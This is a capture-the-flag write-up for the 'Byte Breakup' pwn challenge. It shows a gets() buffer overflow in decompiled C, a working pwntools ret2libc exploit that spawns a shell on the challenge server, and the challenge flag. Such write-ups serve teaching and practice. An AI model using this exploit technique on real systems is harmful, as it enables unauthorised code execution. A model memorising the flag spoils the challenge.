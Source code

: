 # [Pwn] Byte Breakup

## 📚 Overview

> *"Welcome to 'Byte Breakup,' where an old program is stuck in a code-cial relationship with a bug—the ex-girlfriend kind! She left a glitchy surprise, and now it's up to you to debug the drama away. Can you charm your way through its defenses and make it sing? Get ready for a byte-sized comedy of errors as you unravel the mysteries left by your digital ex!"*

## 🔎 *Reconnaissance*

Buffer overflow vulnerability and [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc).

```c
void vuln(void){
  char local_28 [32];
  
  puts("Enter the password: ");
  gets(local_28);
  puts("Wrong password\n");
  return;
}
```

```c
void soClose(void){
  system("/bin/ls");
  return;
}
```

## ✨ Solution

We can utilise [pwntools](https://github.com/Gallopsled/pwntools) for the exploitation.

```py
from pwn import *
elf = context.binary = ELF("./vuln", checksec=False)

# p = process("./vuln")
p = remote("34.125.199.248", 6969)
p.debug()

rop = ROP(elf)
RET_ADDR = 0x401020
BINSH_ADDR = next(elf.search(b'/bin/sh\x00'))
rop.raw(RET_ADDR)
rop.system(BINSH_ADDR)

payload = b'A'*0x28 + rop.chain()

p.sendlineafter(b'Enter the password: ', payload)
p.interactive()
```

For the payload, we will insert the padding first to fill the `local_28` var and then followed by the ROP chain, which call the system function to spawn the shell and return *safely*. *idk, this script worked on the server lol.*

*retrieve RET address using `ROPgadget --binary vuln | grep ret` command.*<br>
*retrieve BINSH address using pwntools.*

## 🏳️ Flag

`OSCTF{b1t_byt3_8r3akup}`